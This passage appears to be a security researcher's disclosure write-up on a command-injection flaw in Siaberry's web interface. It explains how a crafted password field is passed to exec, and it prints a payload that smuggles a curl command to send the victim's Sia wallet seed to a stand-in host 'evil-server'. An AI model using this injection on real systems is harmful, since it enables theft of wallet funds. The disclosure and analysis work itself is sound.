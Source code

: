 Siaberry took untrusted input directly from an HTTP POST request and immediately executed it in the shell. This was a painfully easy vulnerability to exploit.

# How the exploit works

To exploit this, I created an attack server called `evil-server`. From that machine, I started netcat to dump all traffic it received on port 5555. For convenience, I used a server on my local network, but the same attack would work with any server address, remote or local.

I then used `foo` as the username and supplied a password of `badpassword || curl -d "$(siac wallet seeds)" -X POST evil-server:5555`.

When `ActionPage.php` reached its `exec` line, it executed the following command:

```bash
sudo bin/checker foo badpassword || \
  curl -d "$(siac wallet seeds)" -X POST evil-server:5555
```

This caused the shell to execute three different commands. The first was the command that Siaberry *meant* to execute:

```bash
sudo bin/checker foo badpassword
```

This returned a non-zero exit code because `foo`/`badpassword` was a bad username/password combination. Therefore, the shell proceeded to execute the other side of the `||`, starting with the embedded command:

```bash
siac wallet seeds
```

This launched `siac`, the Sia command-line interface. Those command-line parameters tell Sia to print its wallet seed to the console. The wallet seed is a 29-word passphrase that represents the wallet's private key. Anyone who has this passphrase completely controls all funds in the victim's wallet.

```bash
curl -d "$(siac wallet seeds)" -X POST evil-server:5555
```

Finally, the curl command made an HTTP POST request to `http://evil-server:5555`, sending the Sia wallet seed as the payload. The attacker, capturing messages on port 5555, recorded the victim's wallet seed, giving them the ability to steal all funds in the victim's wallet.

# Where have I heard this before?

Interestingly, Reddit commenters [warned of this exact vulnerability seven months ago](https://www.reddit.com/r/siacoin/comments/775ze7/introducing_siaberrywebuisiaberryos12_the/dok9nv9/?st=ji2plpxa&sh=04f72765). They failed to find a working exploit, but they correctly noted the dangerous pattern of placing user-controlled data into `exec` calls.

Siaberry's developer, Kete Tefid, dismissed their warnings and insisted that calls to `exec` were perfectly safe:

